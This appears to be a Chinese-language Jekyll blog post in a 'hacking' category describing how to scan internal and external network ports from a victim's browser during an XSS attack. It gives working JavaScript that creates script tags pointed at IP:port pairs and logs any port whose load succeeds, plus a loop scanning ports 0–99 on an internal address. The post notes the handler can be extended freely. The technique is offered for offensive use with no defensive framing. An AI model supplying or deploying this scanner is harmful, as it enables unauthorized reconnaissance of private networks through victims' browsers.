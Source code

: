 ```yaml
---
category:	hacking
layout:		post
title:		xss中使用js扫描外|内网端口
desc:		在xss攻击中，为了更深一步探测信息，可以尝试着获取一下内网IP段，然后进行端口扫描。当然，神马中间人攻击、跳板exp的这里就不说了。
tags:		[xss,javascript扫描端口,xss扫描端口]
---
```

#### 原理
因为能允许跨域访问的URL实在太少，所以使用`Ajax`技术来实现貌似不太可能，还好，有了一个比较好的思路。    
因为例如`img`,`script`等标签都可以进行跨域访问外部资源，所以这就给了我们想象空间。如果我们创建一个`script`，然后地址为内网的ip+端口，如果加载成功（就算代码执行出错）也会触发`onload`事件，这时候我们所要达到的目的已经完成了。

#### 实现
先简单贴一些代码：
{% highlight js %}
function scan(ip, port){
	var s = document.createElement("script");
	s.src = "http://" + ip + ":" + port;
	s.onload = function(){
		console.log("[*] IP:%s PORT:%s OPEN!", ip, port);
	}
	document.body.appendChild(s);
}
{% endhighlight %}
然后我们使用`for`循环扫描端口，例如：
{% highlight js %}
for (var i = 0; i < 100; i++) {
	scan("10.1.1.1", i);
};
{% endhighlight %}
这时候如果对方端口打开，就会触发`onload`事件了，事件里的功能代码可以随意扩展～